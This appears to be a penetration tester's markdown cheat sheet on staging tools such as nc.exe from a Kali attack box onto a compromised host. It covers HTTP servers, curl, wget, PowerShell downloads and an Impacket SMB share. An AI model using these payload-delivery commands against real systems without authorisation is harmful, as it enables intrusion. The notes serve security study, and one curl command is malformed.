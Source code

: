 # Transfering Files

Often times on an engagement I find myself needing to copy a tool or a payload from my Kali linux attack box to a compromised machine.

## HTTP
The two ways I usually serve a file over HTTP from Kali are either through Apache or through a Python HTTP server.

### Apache
To serve a file up over Apache, just simply copy it to /var/www/html and enable the Apache service. Apache is installed by default in Kali:
```
root@kali:~/shells# cp nc.exe /var/www/html
root@kali:~/shells# systemctl start apache
```

### Python
The other option is to just start a Python webserver directly inside the shells directory. This only requires a single line of Python thanks to Python’s SimpleHTTPServer module:

```
python -m SimpleHTTPServer 8080
```
```
python3 -m http.server
```
By default it serves on port 8000, but you can also specify a port number at the end.

### Downloading the files
Browser
Simply browse to http://YOUR-KALI-IP/nc.exe and use the browser to download the file.

#### Command line

#### Linux

##### cUrl
```
curl https//YOUR-KALI-IP/nc.exe -o nc.exe
```
##### wget
```
wget -O nc.exe http://YOUR-KALI-IP/nc.exe
```

#### Windows 
##### Powershell
```
(new-object System.Net.WebClient).DownloadFile('http://YOUR-KALI-IP/nc.exe','C:\Users\<user>\Desktop\nc.exe')
```
##### CMD
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOUR-KALI-IP/nc.exe','C:\Users\<user>\Desktop\nc.exe')"
```

## SMB

### Setting up the server
Quick and dirty

Enter smbserver.py, part of the Impacket project,the python script takes care of all the configurations for you, binds to 445, and accepts any authentication. It will even print out the hashed challenge responses for any system that connects to it.
`cd` to `/opt/impacket/examples`
```
python smbserver.py ROPNOP /root/shells
```
In one line we’ve got an SMB share up and running. You can confirm it with smbclient from Linux:
```
smbclient -L <kali-ip> --no-pass
```
Windows:
```
net view \\<kali-ip>
```

#### Copying Files
Putting files using smbclient once you connect to it using `smbclient -L <kali-ip> --no-pass`
```
put nc.exe 
```
Getting files
Linux
```
get nc.exe .
```
On windows
```
dir \\<kali-ip>\ROPNOP
copy \\<kali-ip>\ROPNOP\nc.exe .
```
